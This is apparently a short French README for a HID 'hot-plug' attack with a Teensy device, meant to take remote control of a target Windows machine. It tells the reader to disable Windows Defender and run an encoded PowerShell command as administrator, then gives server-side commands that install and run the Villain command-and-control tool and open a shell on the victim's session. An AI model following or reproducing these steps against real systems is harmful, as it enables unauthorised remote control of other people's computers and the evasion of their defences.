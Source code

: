 # Hot-plug et attaques hid

## Pré-requis

Connectez le payload et prendre le contrôle à distance de la machine cible depuis un ordinateur externe.

Prérequis :

Désactivez Windows Defender.
Lancez PowerShell en tant qu'administrateur.
Tapez la commande encodée en base64.

## Commande côté serveur

```git clone https://github.com/t3l3machus/Villain
cd Villain
pip3 install -r requirements.txt
python3 Villain.py
sessions
shell [ID]
```

# Côté victime

Branchez la Teensy
